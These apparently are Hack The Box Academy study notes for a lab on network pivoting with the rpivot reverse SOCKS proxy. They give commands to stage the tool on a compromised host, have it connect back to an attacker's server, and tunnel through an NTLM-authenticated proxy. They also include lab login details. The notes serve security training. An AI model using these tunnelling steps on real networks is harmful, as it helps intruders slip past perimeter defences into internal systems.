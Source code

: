 >[!success] [Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side.

### Clone rpivot
```go
git clone https://github.com/klsecservices/rpivot.git
```

### Install Python2.7
```go
sudo apt-get install python2.7
```


>[!success] Start `rpivot` SOCKS proxy server using the below command to allow the client to connect on port 9999 and listen on port 9050 for proxy pivot connections

### Running server.py from the Attack Host
```go
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

### Transfer rpivot to target
```go
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

### Running client.py from Pivot Target
```go
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```

*configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host*

### Browsing to the Target Webserver using Proxychains
```go
proxychains firefox-esr 172.16.5.135:80
```

## Subverting  HTTP-proxy with NTLM authentication

Provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password

### Connecting to a Web Server using HTTP-Proxy & NTLM Auth

```go
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```

## Questions

Using the concepts taught in this section, connect to the web server on the internal network. Submit the flag presented on the home page as the answer.

IP
```go
10.129.57.42
```

Username
```go
ubuntu
```

Password
```go
HTB_@cademy_stdnt!
```

SSH
```
ssh ubuntu@10.129.57.42
```

### Running rpivot from target
```go
python2.7 client.py --server-ip 10.10.15.37 --server-port 9999
```

Verify `Socks4 127.0.0.1 9050` is present in `/etc/proxychains` on your attack host

